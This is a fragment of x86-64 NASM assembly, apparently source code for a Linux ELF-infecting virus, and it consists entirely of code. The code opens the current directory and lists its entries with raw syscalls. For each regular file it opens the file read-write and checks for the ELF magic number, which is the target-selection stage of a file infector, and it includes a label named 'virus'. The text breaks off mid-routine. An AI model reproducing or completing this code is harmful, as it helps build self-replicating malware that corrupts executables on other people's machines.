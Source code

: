 ```nasm

    mov rax, 0x0
    mov rdi, r9
    mov rsi, host
    mov rdx, max_size
    syscall

    push rax

    mov rax, 0x3
    mov rdi, r9
    syscall

    mov rax, 0x2
    mov rdi, cwdd
    xor rsi, rsi
    xor rdx, rdx
    syscall

    test rax, rax
    js virus

    push rax

    mov rdi, rax
    mov rax, 0xd9
    lea rsi, [rsp + 200 + DIRENT]
    mov rdx, 800
    syscall

    test rax, rax
    js finscan

    mov r10, rax
    xor r9, r9

scan:
    cmp [rsp + r9 + 200 + DIRENT.d_type], 0x8
    jne .continue

    mov rax, 0x2
    lea rdi, [rsp + r9 + 200 + DIRENT.d_name]
    mov rsi, 0x2
    xor rdx, rdx
    syscall

    test rax, rax
    js .continue

    push rax

    mov rax, 0x0
    mov rdi, [rsp]
    lea rsi, [rsp + 1100]
    mov rdx, 4
    syscall

    mov rdi, elfmagic
    mov rcx, 4
    rep cmpsb
    jne .close

    mov rax, 0x8
```